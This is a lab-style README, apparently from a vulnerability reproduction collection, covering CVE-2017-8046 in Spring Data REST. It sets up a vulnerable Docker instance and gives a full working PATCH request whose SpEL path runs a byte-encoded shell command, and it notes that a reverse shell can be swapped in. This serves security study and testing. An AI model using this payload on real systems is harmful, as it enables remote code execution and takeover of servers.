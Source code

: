 # Spring Data REST Remote Code Execution Vulnerability (CVE-2017-8046)

[中文版本(Chinese version)](README.zh-cn.md)

Spring Data REST is built on top of Spring Data to help developers easily create REST-style web services. In the Spring Data REST version before 2.6.9 or 3.0.1, the PATCH method of the REST API (implementing [RFC6902](https://tools.ietf.org/html/rfc6902)), the path value is passed to `setValue`, which leads to the execution of SpEL expressions, triggering a remote code execution vulnerability.

Reference links:

- http://xxlegend.com/2017/09/29/Spring%20Data%20Rest服务器PATCH请求远程代码执行漏洞CVE-2017-8046补充分析/
- https://tech.meituan.com/Spring_Data_REST_远程代码执行漏洞%28CVE-2017-8046%29_分析与复现.html

## Environment Setup

Execute the following command to start a Web application based on Spring Data REST 2.6.6:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080/` to see a JSON format response, indicating this is a RESTful API server.

## Vulnerability Reproduce

Visit `http://your-ip:8080/customers/1` to see a resource. We use a PATCH request to modify it:

```
PATCH /customers/1 HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

```

The path value is a SpEL expression. Sending the above packet will execute the command `touch /tmp/success` represented by `new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`. Then enter the container with `docker compose exec spring bash` to check:

![](1.png)

As you can see, the file "/tmp/success" has been created successfully.

Change the bytecode to a reverse shell command (Note: [Java reverse shell limitations and workarounds](http://www.jackson-t.ca/runtime-exec-payloads.html)), and successfully get the shell:

![](2.png)
